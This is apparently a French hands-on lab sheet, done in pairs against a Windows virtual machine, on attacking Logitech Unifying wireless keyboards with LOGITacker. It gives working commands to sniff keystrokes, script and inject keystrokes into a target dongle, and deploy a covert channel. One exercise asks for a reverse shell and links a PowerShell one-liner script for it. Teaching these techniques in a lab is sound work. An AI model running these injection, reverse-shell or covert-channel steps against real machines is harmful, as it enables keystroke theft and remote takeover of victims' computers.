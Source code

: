 > Une fois la clé compromise, il devient possible de sniffer et déchiffrer  les trames radio, et d'injecter des frappes clavier


Récupération des frappes clavier (à réaliser en binôme)
--

> Utiliser la machine virtuelle Windows comme cible, monter le dongle USB Unifying sur la machine virtuelle

/!\ Activer l'option ***pass-through-keyboard*** implique que la victime utilisant le clavier K400 aura également la main sur le poste de l'attaquant /!\

```
LOGITacker (discover) $ log disable
LOGITacker (discover) $ options passive-enum pass-through-keyboard on
LOGITacker (discover) $ passive_enum <MAC>
```

Injection de frappes (binôme)
--

Rédaction du script HID

* https://github.com/RoganDawes/LOGITacker#33-scripting

```
LOGITacker (discover) $ script press GUI r
LOGITacker (discover) $ script string notepad
LOGITacker (discover) $ script delay 1500
LOGITacker (discover) $ script press RETURN
LOGITacker (discover) $ script delay 1500
LOGITacker (discover) $ script string PoC key stroke injection
LOGITacker (discover) $ script show
```

Selection du layout, du dongle cible et execution

```
LOGITacker (discover) $ options inject language fr
LOGITacker (discover) $ inject target <MAC>
LOGITacker (discover) $ inject execute
```

Exercice : 

> récupérer un reverse shell (sur un vps ou en local si le poste cible est sur le même réseau)

* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1

Déploiement du covert-channel (AirGap Attack) (à réaliser en binôme)
--

Exercice :

> déployer un cover-channel

```
LOGITacker (discover) $ options inject language fr
LOGITacker (discover) $ covert_channel deploy <MAC>
LOGITacker (discover) $ covert_channel connect <MAC>
```
